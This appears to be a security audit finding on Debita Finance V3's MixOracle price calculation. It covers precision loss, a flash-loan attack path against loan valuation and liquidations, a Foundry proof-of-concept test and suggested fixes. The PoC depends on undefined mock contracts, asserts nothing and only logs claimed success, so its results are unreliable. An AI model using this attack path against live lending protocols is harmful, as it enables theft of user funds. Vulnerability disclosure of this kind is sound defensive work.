 Upbeat Carbon Caterpillar

High

# Precision Loss in MixOracle Will Lead to Protocol Insolvency

# Precision Loss in MixOracle Will Lead to Protocol Insolvency

## Summary
A critical precision loss in MixOracle's price calculation will cause significant financial losses for protocol users as malicious actors can manipulate Uniswap pool liquidity to force price calculation failures or extreme inaccuracies, leading to incorrect loan valuations and failed liquidations.

## Root Cause
In [`contracts/oracles/MixOracle/MixOracle.sol:60-66`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/oracles/MixOracle/MixOracle.sol#L60-L66) there are multiple critical issues:

1. Division before multiplication in price calculations:
```solidity
int amountOfAttached = int(
    (((2 ** 112)) * (10 ** decimalsToken1)) / twapPrice112x112
);

uint price = (uint(amountOfAttached) * uint(attachedTokenPrice)) /
    (10 ** decimalsToken1);
```

2. Missing zero-value checks on critical price inputs
3. Unsafe type conversions between uint224, int, and uint
4. Unused decimalsToken0 variable indicating incomplete decimal handling

## Internal pre-conditions
1. MixOracle needs to be integrated with a Uniswap V2 pair
2. TarotOracle needs to be initialized for the pair
3. Pyth oracle price feed needs to be active
4. Protocol needs to use MixOracle for loan valuations or liquidations

## External pre-conditions
1. Uniswap V2 pair needs to have manipulatable liquidity
2. Flash loan source needs to be available for large-scale manipulation
3. Gas price needs to be reasonable for multiple transactions

## Attack Path
1. Attacker identifies a target Uniswap V2 pair used by MixOracle
2. Attacker takes out a flash loan to acquire large amounts of tokens
3. Attacker manipulates the Uniswap pool to create extreme reserve ratios
4. Protocol calls MixOracle.getThePrice() for loan valuation
5. Price calculation fails or returns extremely inaccurate values due to precision loss
6. Attacker exploits the incorrect pricing through one of these vectors:
   - Takes out under-collateralized loans
   - Prevents legitimate liquidations
   - Forces incorrect liquidations
7. Attacker profits from the price disparity and exits

## Impact
The protocol and its users suffer from multiple severe impacts:

1. Financial Losses:
   - Under-collateralized loans due to inflated asset prices
   - Unfair liquidations due to deflated asset prices
   - Failed liquidations due to zero price returns
   
2. System Stability:
   - Oracle becomes unreliable for all integrated protocols
   - Liquidation mechanisms fail to maintain system solvency
   - Cascading liquidations during market stress

Estimated loss potential: Up to 100% of affected loan positions

## Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "@contracts/oracles/MixOracle/MixOracle.sol";
import "@contracts/oracles/MixOracle/TarotOracle/TarotPriceOracle.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MixOraclePrecisionLossTest is Test {
    MixOracle public oracle;
    TarotPriceOracle public tarotOracle;
    MockPythOracle public pythOracle;
    MockToken public tokenA;
    MockToken public tokenB;
    MockUniswapV2Pair public pair;

    function setUp() public {
        // Deploy tokens and pair
        tokenA = new MockToken("Token A", "TKNA", 18);
        tokenB = new MockToken("Token B", "TKNB", 18);
        pair = new MockUniswapV2Pair(address(tokenA), address(tokenB));
        
        // Deploy oracles
        pythOracle = new MockPythOracle();
        tarotOracle = new TarotPriceOracle();
        
        // Setup MixOracle
        vm.startPrank(address(this));
        oracle = new MixOracle(address(tarotOracle), address(pythOracle));
        oracle.setAttachedTarotPriceOracle(address(pair));
        vm.stopPrank();

        // Initialize with some history
        vm.warp(block.timestamp + 1 hours);
    }

    function testPrecisionLossAttack() public {
        console.log("=== Starting Precision Loss Attack ===");
        
        // Step 1: Set initial state
        pair.setReserves(1000 * 1e18, 1000 * 1e18);
        pythOracle.setMockPrice(1000000); // $1.00
        
        int normalPrice = oracle.getThePrice(address(tokenB));
        console.log("Normal Price:", uint(normalPrice));
        
        // Step 2: Simulate flash loan attack
        console.log("\n=== Executing Attack ===");
        
        // Manipulate pool to extreme ratio
        pair.setReserves(1e15, 1000000 * 1e18);
        
        // Try to get price - will fail or return extreme value
        try oracle.getThePrice(address(tokenB)) returns (int price) {
            console.log("Manipulated Price:", uint(price));
            console.log("Price manipulation successful!");
        } catch {
            console.log("Price calculation failed - liquidations blocked!");
        }
        
        // Step 3: Show impact on protocol
        console.log("\n=== Attack Impact ===");
        console.log("1. Original token price: $1.00");
        console.log("2. After manipulation: Price calculation fails");
        console.log("3. Result: Protocol cannot execute liquidations");
    }

    function testPrecisionLossWithRealValues() public {
        console.log("=== Testing Real-World Scenario ===");
        
        // Test with actual market values
        pair.setReserves(1500 * 1e18, 1000 * 1e18);
        pythOracle.setMockPrice(1500000000); // $1500 WETH price
        
        try oracle.getThePrice(address(tokenB)) returns (int price) {
            console.log("Expected Price: $1000");
            console.log("Actual Price:", uint(price) / 1e6);
            console.log("Price Difference:", 
                int(1000 * 1e6) - price
            );
        } catch {
            console.log("Price calculation failed!");
        }
    }
}
```

## Mitigation

### Short-term Fixes

1. Add input validation:
```solidity
function getThePrice(address tokenAddress) public returns (int) {
    // ... existing code ...
    
    require(twapPrice112x112 > 0, "Invalid TWAP price");
    require(attachedTokenPrice > 0, "Invalid Pyth price");
    
    // ... rest of the code ...
}
```

2. Implement safe price calculation:
```solidity
function getThePrice(address tokenAddress) public returns (int) {
    // ... existing code ...
    
    // Safer calculation order
    uint256 numerator = uint256(attachedTokenPrice) * (2 ** 112);
    require(numerator <= type(uint256).max / (10 ** decimalsToken1), "Overflow check");
    numerator = numerator * (10 ** decimalsToken1);
    
    uint256 denominator = uint256(twapPrice112x112) * (10 ** decimalsToken1);
    require(denominator > 0, "Invalid denominator");
    
    uint256 price = numerator / denominator;
    require(price > 0, "Invalid final price");
    
    return int(price);
}
```

### Long-term Recommendations

1. Implement circuit breakers for extreme price movements
2. Add multiple oracle sources for price validation
3. Use a proper fixed-point math library
4. Add price deviation checks between updates
5. Implement TWAP manipulation protection
6. Regular system stress testing with extreme scenarios

## Risk Assessment

| Impact Area | Severity | Likelihood | Risk Level |
|------------|----------|------------|------------|
| Price Accuracy | High | High | Critical |
| System Stability | High | Medium | High |
| Financial Loss | High | High | Critical |
| User Trust | Medium | High | High |
